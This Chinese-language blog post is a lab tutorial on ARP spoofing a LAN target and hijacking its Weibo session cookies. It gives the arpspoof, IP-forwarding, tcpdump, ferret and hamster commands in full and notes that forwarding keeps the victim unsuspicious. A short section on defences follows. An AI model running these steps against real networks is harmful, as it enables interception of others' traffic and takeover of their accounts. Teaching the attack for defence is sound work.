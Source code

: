```yaml
---
layout:     post
title:      内网安全之 ARP 欺骗
subtitle:   内网姿势系列
author:     gsfish
date:       2016-06-23 21:32 +0800
header-img: img/post-bg-kali.jpg
tags:
 - 内网安全
 - 渗透
---
```



# 0x00 实验环境

```
网关：
192.168.1.1
 
攻击者：  
IP: 192.168.1.110
OS: Kali Linux (VirtualBox)

靶机：
IP: 192.168.1.105
OS: Windows 10 Home
```


# 0x01 基本思路

1. 首先通过 ARP 欺骗使靶机与网关间的数据包经由攻击者主机转发
2. 等待目标用户进行登陆操作，抓取 HTTP 数据包
3. 解析所抓取的数据包，并提取出 Cookie
4. 将 Cookie 导入浏览器，从而实现劫持目标用户的会话


# 0x02 工具准备

## 安装 ferret

除 `ferret` 的其他 3 个工具已经集成在 Kali 中了，我们要自行安装 `ferret`（64 位 Kali 需要增加对 32 位程序的支持才能在源中找到它）。这个工具连同 `hamster` 是由一个名叫 [Robert Graham](https://github.com/robertdavidgraham) 的黑客开发的。

增加包管理器对 32 位程序的支持，更新源并安装工具：

```
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install ferret-sidejack
```

## 开启 IP 转发

使用 arpspoof 进行 ARP 欺骗前需要开启本机的 IP 转发（这个临时的，重启后会失效），不然目标用户在攻击期间会无法上网，从而起疑。

```
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```


# 0x03 攻击过程

## 进行 ARP 欺骗

```
sudo arpspoof -i eth0 -t 192.168.1.105 192.168.1.1
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.105

说明：
-i  所用的网卡设备名
-t  攻击目标的 IP（由于是单向的，所以需要开启两个）
```

![01.png](img/lan-attack-cookie-hijack/01.png)

![02.png](img/lan-attack-cookie-hijack/02.png)

这两个窗口在攻击过程中要一直保持。然后进入靶机，打开命令提示符：

`arp -a`

![03.png](img/lan-attack-cookie-hijack/03.png)

可以看到 ARP 缓存表中网关的 MAC 已经变成攻击者的了，取得初步胜利~

## 抓取 HTTP 数据包

```
sudo tcpdump -i eth0 tcp port 80 and host 192.168.1.105 -w cookie.cap

说明：
-i  所用的网卡设备名
-w  生成数据包的名称
tcp port 80 and host 192.168.1.105  抓取通过 192.168.1.105:80 的数据包
```

等待目标用户登陆网站或访问任何登陆后的页面，于是就可以抓到含有 Cookie 的 HTTP 数据包了。过一段时间后停止抓取（这只能抓取 HTTP 流量，如果网站启用了 HTTPS 就需要采用新的姿势了，例如 SSLstrip）。

![04.png](img/lan-attack-cookie-hijack/04.png)

在家目录下会生成一个 `cookie.cap` 文件，这就是我们一直在抓的数据包了。然而现在我们还看不懂其中的内容，需要用 `ferret` 来解析一下。

## 解析 cookie.cap

```
ferret -r cookie.cap

说明：
-r  读取数据包并将其解析，生成 hamster.txt
-i  所用的网卡设备名（其实 ferret 也有抓包的功能）
```

![05.png](img/lan-attack-cookie-hijack/05.png)

此时数据包中的内容已被解析并保存到了家目录中的 `hamster.txt`。

## 加载 Cookie 模拟登陆

直接运行即可：

```
hamster
```

`hamster` 是一个十分高效的工具，直接输入命令即可打开。虽然 Firefox 的一些插件自定义 Cookie，但 `hamster` 能很方便地把我们生成的 `hamster.txt` 中的 Cookie 信息自动导入到浏览器中：

![06.png](img/lan-attack-cookie-hijack/06.png)

打开浏览器，设置代理为 `127.0.0.1`，端口 `1234`：

![07.png](img/lan-attack-cookie-hijack/07.png)

在地址栏输入 `127.0.0.1:1234`。点击 `192.168.1.105`，接着出现以下页面：

![08.png](img/lan-attack-cookie-hijack/08.png)

在左侧栏我们看到了 `http://weibo.com/...`。点击链接，成功利用目标用户的 Cookie 登陆器其新浪微博。把这个地址复制到地址栏后就可以正常使用其微博的所有功能啦：

![09.png](img/lan-attack-cookie-hijack/09.png)


# 0x04 防御 ARP 欺骗

如果你平时大部分时间使用的都是公共网络，而你的身边恰好有人喜欢搞过安全，那就别浏览那些比较私密的东西啦。同时这也告诉我们，最好不要使用机场、餐厅这些公共场合的 WIFI 进行一些登陆的操作（除非使用了 VPN）。

关于 ARP 攻击的防范方面，主机和路由器都需要进行相关设置的。路由器要在管理页面设置 MAC 绑定，而主机方面可以通过 `arp -s` 这个命令将网关的 IP 与 MAC 进行绑定。

同学 [@yungkcx](https://github.com/yungkcx) 刚好写了一篇相关的博客，在此安利一波：

[https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html](https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html)


# 参考资料

1. http://www.cnblogs.com/anka9080/p/arpspoof.html
